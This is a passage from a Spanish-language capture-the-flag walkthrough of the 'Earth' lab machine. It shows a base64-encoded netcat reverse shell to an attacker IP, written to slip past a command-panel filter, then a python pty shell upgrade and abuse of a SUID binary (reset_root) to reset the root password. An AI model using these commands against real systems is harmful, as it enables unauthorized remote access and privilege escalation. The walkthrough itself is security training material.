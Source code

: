 Comandos usados:
```bash
whoami          # -> apache
ls /var/earth_web
cat /var/earth_web/user_flag.txt   # FLAG usuario
```

### 3.7 Evasión de restricciones y obtención de shell reversa
- El panel denegaba conexiones remotas directas; la solución fue codificar el payload en Base64 y decodificarlo en el servidor:

En atacante:
```bash
nc -lvnp 4444
```

Payload (conversión a base64):
```bash
echo 'nc -e /bin/bash 192.168.131.128 4444' | base64
# -> bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTMxLjEyOCA0NDQ0Cg==
```

En panel web:

```bash
echo 'bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTMxLjEyOCA0NDQ0Cg==' | base64 -d | bash
# Listener recibe conexión -> shell reversa
```

Mejora de shell:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### 3.8 Búsqueda de vectores de escalada (SUID / capabilities)

```bash
find / -perm -u=s 2>/dev/null
# encontrado: /usr/bin/reset_root
```

- Análisis estático/dinámico: strings, ltrace, strace, file, ldd.
- ltrace ./reset_root sugiere que busca/usa algunos archivos concretos; al crear esos archivos, la lógica del binario permite restablecer root.

Explotación:
```bash
# Crear los archivos que el binario espera
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
touch /tmp/kcM0Wewe

# Ejecutar el binario SUID -> cambia la contraseña root a 'Earth' (según el test)
./reset_root

su root    # contraseña: Earth
cat /root/root_flag.txt  # FLAG root
```
